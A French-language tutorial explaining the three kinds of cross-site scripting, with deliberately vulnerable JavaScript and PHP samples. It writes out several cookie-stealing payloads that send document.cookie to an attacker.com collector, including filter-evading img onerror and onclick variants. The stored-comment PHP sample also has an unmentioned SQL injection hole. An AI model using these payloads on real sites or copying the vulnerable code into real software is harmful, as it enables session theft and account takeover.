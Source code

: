 ```yaml
---
title: XSS, késako ?
sidebar_label: XSS
pagination_label: XSS, késako ?
description: XSS, késako ?
keywords:
  - docs
  - OSINT
---
```


## Qu'est ce qu'une XSS ?

### Introduction
L'attaque par Cross-Site Scripting, communément appelée XSS, est une attaque qui est pratiquée sur des applications web. Elle est actuellement une attaque dévastatrice et à prendre au sérieux ([3ᵉ du top 10 OWASP](https://owasp.org/Top10/fr/)) 😱😱. Cette technique exploite les entrées utilisateurs qui ne sont pas désinfectées par le développeur. On va donc passer par des requêtes HTTP GET/POST pour injecter nos payloads et pouvoir toucher les autres utilisateurs.

Il existe trois variantes principales de cette attaque :

- le XSS basé sur le DOM
- le XSS réfléchi
- le XSS stocké

Pour savoir laquelle nous allons utiliser, il va falloir voir de quoi se compose le serveur web que nous attaquons. 

### XSS basé sur le DOM


La XSS basé sur le DOM est une attaque XSS non persistante qui s'exécute côté client. C'est-à-dire que notre objectif n'est pas de la maintenir dans une base de donnée du serveur et de la propager à tous les utilisateurs. Nous allons plutôt créer une URL qui sera exécuté par le code JS côté client :

```http://target.com/search?request=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```

Voici notre URI, décortiquons là : 

Nous avons d'abord notre site cible : ```http://target.com/search```, on va chercher la page qui contient un formulaire ou qui nécessite un argument dans l'URL.

```?request=``` est l'argument dans lequel on va intégrer notre script JS.

```<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```, ici on utilise [document.location](https://developer.mozilla.org/fr/docs/Web/API/Document/location) pour rediriger l'utilisateur vers ```http://attacker.com/steal.php``` qui sera notre site de réception de cookie, on ajoute l'argument ```cookie='+document.cookie``` pour rediriger les cookies de la victime vers notre site 😃

La différence avec une XSS réfléchi, c'est que le notre URL sera exécuté côté client et non par le serveur ! 

Par exemple, si côté client, vous avez un code qui récupère les arguments et les affiche dans le DOM :


```javascript
var url = document.location.href;
var message = url.split("message=")[1];
document.getElementById('welcomeMessage').innerText = message;
```

Alors, lorsque l'utilisateur visite cette URL (par phising la plupart du temps), le code JS extrait le message à partir de l'URL et l'injecte directement dans la page, ce qui conduit à l'exécution du code.


### XSS réfléchi

L'attaque XSS réfléchi vient du fait que l'attaque est basée sur la réponse du serveur à une requête, elle rentre en opposition avec la XSS basé sur le DOM qui exécute le code coté client.
Cette variante est aussi non persistante et sera aussi exploiter par le phising 

Reprenons notre payload : 

```http://target.com/search?request=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```

Si le serveur a un script php de ce style qui extrait et affiche la requête : 



```php
<?php
$request = $_GET['request'];
?>
<html>
    <body>
        <form method="GET" action="">
            <input type="text" name="request" placeholder="Enter search request" />
            <input type="submit" value="Search" />
        </form>
        <?php
        if ($request) {
            echo "You searched for: " . $request;
        }
        ?>
    </body>
</html>
```

Alors le serveur renverra une page avec notre code qui sera inséré dedans.


### XSS stocké

Pour la XSS stocké, considérons un site web avec un forum de discussion où les utilisateurs peuvent poster des commentaires. Si le site ne vérifie pas correctement le contenu des messages, un attaquant pourrait poster un commentaire contenant du code JS, comme notre fameux payload ```<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```. Ce commentaire serait alors stocké sur la base de donnée du site et chaque fois qu'un autre utilisateur affichera ce commentaire sur son navigateur, le code malveillant serait exécuté. 
Voici un exemple de script php qui stocke les inputs que les utilisateurs envoient : 

```php
<?php
$db = new SQLite3('comments.db');
$db->exec("CREATE TABLE IF NOT EXISTS comments (comment TEXT)");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $comment = $_POST['comment'];
    $db->exec("INSERT INTO comments (comment) VALUES ('$comment')");
}
?>

<!DOCTYPE html>
<html>
<body>
<form method="post" action="">
    <textarea name="comment"></textarea>
    <input type="submit" value="Submit comment">
</form>

<?php
$results = $db->query('SELECT * FROM comments');
while ($row = $results->fetchArray()) {
    echo $row['comment'] . '<br />';
}
?>

</body>
</html>
```

Ici la première partie du code PHP intègre le commentaire à la base de données. Puis la seconde partie affiche tout les commentaires.
Comme pour les autres variantes, dès qu'un utilisateur affichera la page, le code malveillant sera exécuté.

### Payloads exotiques

Souvent des normes de sécurités sont mises en place pour supprimer les balises script, il faut donc ruser pour pouvoir injecter notre payload.
Par exemple celui-ci : 

```html 
<img src/onerror=document.location='http://attacker.com/steal.php?cookie='+document.cookie;>
```

Ce payload ajoute une balise image au DOM qui n'a pas de source ce qui appellera onerror et lancera notre script.

Ou encore ce payload : 

```html
<a onclick="document.location='http://attacker.com/steal.php?cookie='+document.cookie;" style=display:block>test</a>
```

Ici, on ajoute un lien avec la balise ```a``` qui utilise ```onclick``` pour activer le script.
Ce payload demande que la victime interagisse plus et sera moins efficace.

Beaucoup de payload existe et je vous recommande [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) pour explorer un peu les possibilités 😁



